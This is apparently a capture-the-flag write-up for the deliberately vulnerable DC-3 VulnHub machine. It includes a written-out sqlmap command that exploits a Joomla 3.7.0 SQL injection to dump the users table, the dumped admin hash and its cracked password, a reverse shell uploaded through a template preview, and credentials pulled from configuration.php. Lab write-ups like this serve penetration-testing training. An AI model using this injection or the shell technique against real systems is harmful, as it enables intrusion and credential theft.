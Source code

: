 ```yaml
---
title : DC 3
categories: [Proving Grounds Play, DC]
tags: [PrivEsc,dc]
---
```


## **Description ⤵️**

>
💡 [DC-3](https://vulnhub.com/entry/dc-32,312/) is another purposely built vulnerable lab with the intent of gaining experience in the world of penetration testing.

As with the previous DC releases, this one is designed with beginners in mind, although this time around, there is only one flag, one entry point and no clues at all.

Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.

For beginners, Google can be of great assistance, but you can always tweet me at @DCAU7 for assistance to get you going again. But take note: I would not give you the answer, instead, I'll give you an idea about how to move forward.

For those with experience doing CTF and Boot2Root challenges, this probably would not take you long at all (in fact, it could take you less than 20 minutes easily).

If that is the case, and if you want it to be a bit more of a challenge, you can always redo the challenge and explore other ways of gaining root and obtaining the flag.

**TECHNICAL INFORMATION**

DC-3 is a VirtualBox VM built on Ubuntu 32 bit, so there should be no issues running it on most PCs.

Please note: There was an issue reported with DC-3 not working with VMware Workstation. To get around that, I recommend using VirtualBox, however, I have created a separate DC-3 VMware edition for those who can only use VMware.

It is currently configured for Bridged Networking, however, this can be changed to suit your requirements. Networking is configured for DHCP.

Installation is simple - download it, unzip it, and then import it into VirtualBox and away you go.

**IMPORTANT**

While there should be no problems using this VM, by downloading it, you accept full responsibility for any unintentional damage that this VM may cause.

In saying that, there should not be any problems, but I feel the need to throw this out there just in case.

**CONTACT**

I'm also very interested in hearing how people go about solving these challenges, so if you're up for writing a , please do so and send me a link, or alternatively, follow me on Twitter, and DM me (you can unfollow after you've DM'd me if you'd prefer).

I can be contacted via Twitter - @DCAU7

This works better with VirtualBox rather than VMware ## Changelog v3.2 - 2020-04-25 v3.0 - 2019-03-26

{: .prompt-info }

Let’s find the IP Address first >>

![157-1.png](/Vulnhub-Files/img/DC-3/157-1.png)

```bash
IP →  10.0.2.8
```

## Port Scan Results ➡️

![157-2.png](/Vulnhub-Files/img/DC-3/157-2.png)

```bash
OPEN PORTS >
80   HTTP
```

---

## Web Enumeration ⤵️

![157-3.png](/Vulnhub-Files/img/DC-3/157-3.png)

I found one exploit on exploitdb site for joomla 3.7.0 →

```bash
commands →
sqlmap -u "http://10.0.2.8/**index**.php?**option**=com_fields&**view**=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' --dump -p list[fullordering]
```

![157-4.png](/Vulnhub-Files/img/DC-3/157-4.png)

```bash
[02:45:21] [INFO] fetching entries for table '#__users' in database 'joomladb'
[02:45:21] [INFO] retrieved: 'freddy@norealaddress.net'
[02:45:21] [INFO] retrieved: '629'
[02:45:21] [INFO] retrieved: 'admin'
[02:45:21] [INFO] retrieved: '{"admin_style":"","admin_language":"","language":"","editor":"","helpsite":"","timezone":""}'
[02:45:21] [INFO] retrieved: '$2y$10$DpfpYjADpejngxNh9GnmCeyIHCWpL97CVRnGeZsVJwR0kWFlfB1Zu'
[02:45:21] [INFO] retrieved: 'admin'

Database: joomladb
```

so with the help of john the ripper I got the password →

![157-5.png](/Vulnhub-Files/img/DC-3/157-5.png)

```bash
admin : snoopy
```

![157-6.png](/Vulnhub-Files/img/DC-3/157-6.png)

so I got In →

Lets upload the reverse shell code now →

![157-7.png](/Vulnhub-Files/img/DC-3/157-7.png)

After this set the reverse shell at port 4444 and then click on **`Template Preview`** →

![157-8.png](/Vulnhub-Files/img/DC-3/157-8.png)

Now lets see What I have with this shell →

`configuration.php` →

![157-9.png](/Vulnhub-Files/img/DC-3/157-9.png)

```bash
secret : 7M6S1HqGMvt1JYkY
user : root
password : squires
```

![157-10.png](/Vulnhub-Files/img/DC-3/157-10.png)

![157-11.png](/Vulnhub-Files/img/DC-3/157-11.png)

it worked →

![157-12.png](/Vulnhub-Files/img/DC-3/157-12.png)

![157-13.png](/Vulnhub-Files/img/DC-3/157-13.png)

![157-14.png](/Vulnhub-Files/img/DC-3/157-14.png)

---